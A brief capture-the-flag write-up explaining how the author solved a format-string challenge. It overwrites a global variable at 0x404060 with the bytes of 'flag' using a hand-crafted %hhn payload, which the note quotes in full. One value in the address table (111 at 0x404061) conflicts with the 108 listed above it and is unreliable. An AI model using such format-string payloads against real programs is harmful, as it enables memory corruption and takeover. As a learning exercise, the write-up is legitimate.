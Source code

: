 In this challenge we have to change the value of a global variable

0x404060 this is the address of the global variable

This is the value which we have to put in the global variable
67    61     6c      66
103   97    108    102

0x404063 = 103
0x404062 = 97 
0x404061 = 111
0x404060  = 102

`%97x%20$hhn,%4x%21$hhn,%22$hhn,%4c%23$hhnZZZZZZZ\x62\x40\x40\x00\x00\x00\x00\x00\x60\x40\x40\x00\x00\x00\x00\x00\x63\x40\x40\x00\x00\x00\x00\x00\x61\x40\x40\x00\x00\x00\x00\x00`

I used gdb to find the offset then i manually crafted this format string
